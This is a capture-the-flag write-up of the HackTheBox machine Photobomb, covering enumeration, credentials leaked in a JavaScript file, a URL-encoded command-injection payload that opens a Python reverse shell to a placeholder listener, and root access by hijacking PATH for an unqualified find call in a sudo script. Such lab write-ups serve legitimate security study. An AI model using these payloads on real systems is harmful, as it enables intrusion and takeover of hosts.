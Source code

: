 ```yaml
---
title: "CTF Writeup: HTB - Photobomb"
categories:
   - Capture the Flag
   - Writeup
   - HackTheBox
---
```


The HackTheBox weekly machine named Photobomb was relatively easy to exploit. The first step involved discovering the login credentials by analyzing a JavaScript file. Once I gained access to an image manipulation panel using the credentials, I identified a command injection vulnerability and leveraged it to obtain execution and a shell. The privilege escalation phase was accomplished by executing a script as root, and there were two ways to achieve this. The first method involved exploiting a find command that was called without the full path, while the second method involved taking advantage of a disabled Bash builtin.

The machine [HTB - Photobomb](https://app.hackthebox.com/machines/500)


## Enumeration

```bash
┌──(root㉿kali)-[~]
└─# nmap -sV -sC 10.10.11.182
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-27 21:53 EST
Nmap scan report for 10.10.11.182
Host is up (0.028s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e22473bbfbdf5cb520b66876748ab58d (RSA)
|   256 04e3ac6e184e1b7effac4fe39dd21bae (ECDSA)
|_  256 20e05d8cba71f08c3a1819f24011d29e (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://photobomb.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.83 seconds
```

Looks like ports [22, 80] are Open.

To take a look at T80 we should add our an entry to `/etc/hosts`.
```
┌──(root㉿kali)-[~]
└─# echo "10.10.11.182 photobomb.htb" >>/etc/hosts
```

![image](https://user-images.githubusercontent.com/29680216/221742245-98cf98fe-9d8f-47b1-8d36-abcaf89a3d63.png)

Clicking the `click here!` redirects to a page `/printer` which requires creds.

![image](https://user-images.githubusercontent.com/29680216/221742383-a7ee84aa-b3cb-4ee0-9ff3-0ec9d2633c34.png)

Manually inputing some creds showed no promise, but looking at the page source it looks to have a script it loads at the beginning of the page: `photobomb.js`.

Source: `photobomb.js`

![image](https://user-images.githubusercontent.com/29680216/221743317-817dd3e5-77e3-4eb5-8791-b33e6876127b.png)

Looks there's a possible username/password in the href.

![image](https://user-images.githubusercontent.com/29680216/221743975-e884e8a4-86c1-4c96-8258-b33b06139b7e.png)

Opening that URL looks to have let us login to the page.

![image](https://user-images.githubusercontent.com/29680216/221744204-3b16a0a9-8c48-4f74-a0ed-380b45a00b37.png)

Seems to have nothing of interest, but at the bottom there's a section for downloading an image.

![image](https://user-images.githubusercontent.com/29680216/221744437-e3a4b29a-8812-4b7e-93eb-55728b3e2561.png)

Using Burp Suite we can intercept when seeing what this button does.

![image](https://user-images.githubusercontent.com/29680216/221745177-15fb505c-8d94-4cad-95a8-2070664d309d.png)


## Exploitation

Using the below payload injection seems we were able to establish a shell.
- `[LHOST]` your local host.
- `[LPORT]` your local port.

```
%3bexport+RHOST%3d"[LHOST]"%3bexport+RPORT%3d[LPORT]%3bpython3+-c+'import+sys,socket,os,pty%3bs%3dsocket.socket()%3bs.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))))%3b[os.dup2(s.fileno(),fd)+for+fd+in+(0,1,2)]%3bpty.spawn("sh")'
```

Before sending the payload, ensure you're listening on the port above.

![image](https://user-images.githubusercontent.com/29680216/221747141-ae1063aa-9692-4d98-95c5-d4063fcbe7cf.png)

Bingo.

![image](https://user-images.githubusercontent.com/29680216/221747683-4ecaa6d7-6073-4687-9538-062c02926472.png)

Now we need to get ourselves a shell, so we must spawn one.

```
$ python3 -c "import pty;pty.spawn('/bin/bash')"
python3 -c "import pty;pty.spawn('/bin/bash')"
wizard@photobomb:~/photobomb$ 
```

Bet. Now that we have a user shell, looks that we have a our first flag.

```
wizard@photobomb:~/photobomb$ ls ~/
ls ~/
photobomb  user.txt
wizard@photobomb:~/photobomb$ cat ~/user.txt    
cat ~/user.txt
a43c08bd49e712707dc3b67c766371d2
```

Now... Let's see what permissions we're working with.

```
wizard@photobomb:~/photobomb$ sudo -l
sudo -l
Matching Defaults entries for wizard on photobomb:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh
wizard@photobomb:~/photobomb$ 
```

It looks like there's a script we can run as root: `/opt/cleanup.sh`. Seems we have read rights to view the contents of the script.

```
wizard@photobomb:~/photobomb$ ls -la /opt/cleanup.sh
ls -la /opt/cleanup.sh
-r-xr-xr-x 1 root root 340 Sep 15 12:11 /opt/cleanup.sh
```

Taking a peak that the scripts contents 

```
wizard@photobomb:~/photobomb$ cat /opt/cleanup.sh
cat /opt/cleanup.sh
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
```

We can try to overwrite the `find` script and bypass roots `PATH` so that it uses our modfied script to give us a root shell.
```
wizard@photobomb:~/photobomb$ echo "bash" > find
echo "bash" > find
wizard@photobomb:~/photobomb$ chmod +x find
chmod +x find
wizard@photobomb:~/photobomb$ sudo PATH=$PWD:$PATH /opt/cleanup.sh
sudo PATH=$PWD:$PATH /opt/cleanup.sh
root@photobomb:/home/wizard/photobomb# 
```

Solid. Now we have the root flag.

```
root@photobomb:/home/wizard/photobomb# ls ~/
ls ~/
root.txt
root@photobomb:/home/wizard/photobomb# cat ~/root.txt   
cat ~/root.txt
78dfb63bc7a8d3a0ddd4a6495c723c86
root@photobomb:/home/wizard/photobomb# 
```


## Conclusion

This was a fun box. I enjoyed the manual enumeration and the exploitation. I'm not sure if this was intended, but I was able to get a root shell without having to modify the `find` script. I was able to overwrite the `find` script and then run the `sudo` command with the `PATH` set to the current directory. This allowed me to run my modified `find` script and get a root shell.

Lastly, **Hack the Planet**!